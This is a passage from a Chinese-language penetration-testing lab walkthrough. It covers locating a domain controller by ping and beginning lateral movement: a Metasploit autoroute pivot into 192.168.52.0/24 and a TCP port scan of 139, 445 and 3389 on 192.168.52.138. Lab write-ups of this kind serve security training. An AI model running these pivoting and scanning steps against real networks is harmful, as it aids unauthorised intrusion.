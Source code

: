 8. 通过ping命令获取域控IP
   
   ```powershell
   ping OWA.god.org
   ```
   
   ![26.png](img/ATT&CK/ATT&CK1/png26.png)

## 横向移动

1. 由于域控主机在另一个网段，攻击机器无法直接与域网段通信，需要在msf中添加一条路由进行转发，执行以下命令
   
   ```powershell
   run autoroute -s 192.168.52.0/24
   ```
   
   ![27.png](img/ATT&CK/ATT&CK1/png27.png)

2. 利用添加的路由进行内网主机和端口扫描，扫描一下域控主机192.168.52.138的139、445、3389端口，发现开放了139、445端口
   
   ```powershell
   background
   use auxiliary/scanner/portscan/tcp
   set rhosts 192.168.52.138
   set ports 139,445,3389
   run
   ```
   